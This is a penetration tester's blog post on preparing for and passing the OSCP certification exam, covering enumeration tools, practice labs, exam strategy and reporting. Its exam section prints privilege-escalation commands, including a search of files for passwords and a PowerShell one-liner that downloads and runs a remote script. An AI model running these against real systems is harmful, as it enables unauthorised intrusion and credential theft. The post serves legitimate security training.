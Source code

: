 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: pentesting, hacking, cybersecurity, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: Photo by Clint Patterson on Unsplash
description: The OSCP exam is one of the hardest certifications out there for pentesters. Here we show you how you can prepare yourself to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking, Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam,
I already had years of work experience as a penetration tester
at `Fluid Attacks`.
So,
I already knew how to perform a [penetration test](../../solutions/penetration-testing/)
and how to build a technical report of my findings.
However,
if you don't have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
metasploit is restricted to only **one** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as
the following:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help you with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I've encountered a vulnerability on
hackthebox first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were
these:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and getting some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can't hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days. One day concentrating on the guide and
taking notes of things that I didn't know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a **buffer overflow**. Take notes of every step, copy all the commands
that you need, and also how to get the **return address**.

## Post lab

Here you want to gather the most information about the last two steps.
We are going back to hackthebox but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from vulnhub).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in; if so, then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram for the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert and watch
movies and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you're fresh when you take the
exam.

## The exam

The task is to gain administrative access to the machines in the
network. There are five machines, each is worth a certain number of points
if you complete it, and you need at least **70** points to pass the exam.
The machine points are distributed as follows:

- 25 points buffer overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the 25 points BoF machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
TTL (Time to Live) is 64 then it is a Linux machine, and if it is
128 then it's a Windows machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the BoF machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was Linux I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named linenum but it's too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was Windows, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run Windows exploits. When it comes
to Windows, most of the time, the way of escalating privileges is
through a vulnerability in the OS version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than **75** total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **Do not do this\!** The next day I did my
technical documentation. The advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line), add it to
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it's not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
